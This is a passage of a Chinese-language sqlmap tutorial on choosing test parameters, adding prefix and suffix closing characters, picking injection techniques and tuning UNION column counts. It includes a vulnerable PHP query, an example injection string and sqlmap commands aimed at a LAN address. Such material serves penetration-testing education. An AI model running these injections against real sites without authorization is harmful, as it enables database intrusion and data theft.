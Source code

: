 ##### 13、手动指定测试参数

sqlmap默认测试所有的GET和POST参数，当–level的值大于或等于2的时候也会探测HTTP Cookie头的值，当大于等于3的时候也会测试Use-Agent和HTTP Referer头的值，但是你可以手动用-p指定想要测试的参数。

```
-p "id=123"  
一般适用多个参数
12
```

##### 14、指定参数前后闭合字符

有些环境中，需要在注入的payload的前面或后面加一些字符，来保证payload的正常执行。

例如：

```sql
$query="select * from users where id=('$GET['id']') limit 0,1";
闭合单引号和括号

index.php?id=123') and 1=1 ('
1234
```

这时就需要用`--prefix`和`--suffix`参数了

sqlmap -u “http://192.168.226.130:8009/shownews.asp?id=9” -p id --prefix “`')`” --suffix “`and ('1=1`”

##### 15、指定使用哪种探测技术

默认情况下会使用所有方式进行探测

```
--technique=U   单个
--technique=UEB 多个

B:Boolean-based blind SQL injection（布尔型注入）
E:Error-based SQL injection（报错型注入）
U:UNION query SQL injection（可联合查询注入）
S:Stacked queries SQL injection（可多语句查询注入）
T:Time-based blind SQL injection（基于时间延迟注入）
12345678
```

##### 16、UNION查询指定参数

默认情况下sqlmap测试UNION查询注入会测试1-10个字段数，当–level为5的时候它会增加测试到50个字段数。设定–union-cols的值应该是一段证书，如：12-16，是测试12-16个字段数。

```
--union-cols
1
```

默认情况下sqlmap针对UNION查询的注入会使用NULL字符，但是有些情况下会造成页面返回失败，而一个随机整数是成功的，这时可以用–union-char指定UNION查询的字符

```
--union-char "null"

union select null,null,null,null
123
```
